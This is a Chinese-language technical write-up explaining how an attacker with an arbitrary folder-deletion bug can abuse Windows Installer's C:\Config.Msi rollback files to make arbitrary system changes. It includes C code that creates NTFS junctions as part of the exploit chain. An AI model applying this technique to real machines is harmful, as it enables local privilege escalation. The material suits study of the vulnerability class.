 在安装过程中，Windows Installer 服务会创建一个名为 C:\\Config.Msi 的文件夹，并在其中填充回滚信息。每当安装过程对系统进行更改时，Windows Installer 都会将更改记录在 C:\\Config.Msi 内的 .rbs 类型文件（回滚脚本）中。此外，每当安装用新版本覆盖某些文件的旧版本时，Windows Installer 都会在 C:\\Config.Msi 中放置原始文件的副本。这种类型的文件将被赋予 .rbf （回滚文件）扩展名。如果需要回滚不完整的安装，该服务将读取 .rbs 和 .rbf 文件，并使用它们将系统恢复到安装之前存在的状态。

必须防止该机制被篡改。如果恶意用户能够在读取 .rbs 和/或 .rbf 文件之前对其进行更改，则在回滚期间可能会发生对系统状态的任意更改。因此，Windows Installer 对 C:\\Config.Msi 及其所包含的文件设置了强 DACL。

不过，这里出现了一个漏洞：如果攻击者具有任意文件夹删除漏洞怎么办？他们可以在 Windows Installer 创建 `C:\Config.Msi` 后立即使用它来完全删除它。然后，攻击者可以使用弱 DACL 重新创建 `C:\Config.Msi` （请注意，普通用户可以在 C:\\ 的根目录下创建文件夹）。一旦 Windows Installer 在 `C:\Config.Msi` 中创建回滚文件，攻击者就能够将 `C:\Config.Msi` 替换为包含攻击者指定的 `.rbs` 和 `.rbf` 文件。然后，在回滚时，Windows Installer 将对系统进行任意更改，如恶意回滚脚本中指定的那样。

### 代码实现

此处实现连接点相关操作：

`CreateJunction`创建连接点

`DeleteJunction`删除连接点

```php
BOOL CreateJunction(LPCWSTR dir, LPCWSTR target) {
    HANDLE hJunction;
    DWORD cb;
    wchar_t printname[] = L"";
    HANDLE hDir;
    hDir = CreateFile(dir, FILE_WRITE_ATTRIBUTES, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_FLAG_BACKUP_SEMANTICS, NULL);

    if (hDir == INVALID_HANDLE_VALUE) {
        printf("[!] Failed to obtain handle on directory %ls.\n", dir);
        return FALSE;
    }

    SIZE_T TargetLen = wcslen(target) * sizeof(WCHAR);
    SIZE_T PrintnameLen = wcslen(printname) * sizeof(WCHAR);
    SIZE_T PathLen = TargetLen + PrintnameLen + 12;
    SIZE_T Totalsize = PathLen + (DWORD)(FIELD_OFFSET(REPARSE_DATA_BUFFER, GenericReparseBuffer.DataBuffer));
    PREPARSE_DATA_BUFFER Data = (PREPARSE_DATA_BUFFER)malloc(Totalsize);
    Data->ReparseTag = IO_REPARSE_TAG_MOUNT_POINT;
    Data->ReparseDataLength = PathLen;
    Data->Reserved = 0;
    Data->MountPointReparseBuffer.SubstituteNameOffset = 0;
    Data->MountPointReparseBuffer.SubstituteNameLength = TargetLen;
    memcpy(Data->MountPointReparseBuffer.PathBuffer, target, TargetLen + 2);
    Data->MountPointReparseBuffer.PrintNameOffset = (USHORT)(TargetLen + 2);
    Data->MountPointReparseBuffer.PrintNameLength = (USHORT)PrintnameLen;
    memcpy(Data->MountPointReparseBuffer.PathBuffer + wcslen(target) + 1, printname, PrintnameLen + 2);

    if (DeviceIoControl(hDir, FSCTL_SET_REPARSE_POINT, Data, Totalsize, NULL, 0, &cb, NULL) != 0)
    {
        printf("[+] Junction %ls -> %ls created!\n", dir, target);
        free(Data);
        return TRUE;

    }
    else
    {
        printf("[!] Error: %d. Exiting\n", GetLastError());
        free(Data);
        return FALSE;
    }
}

```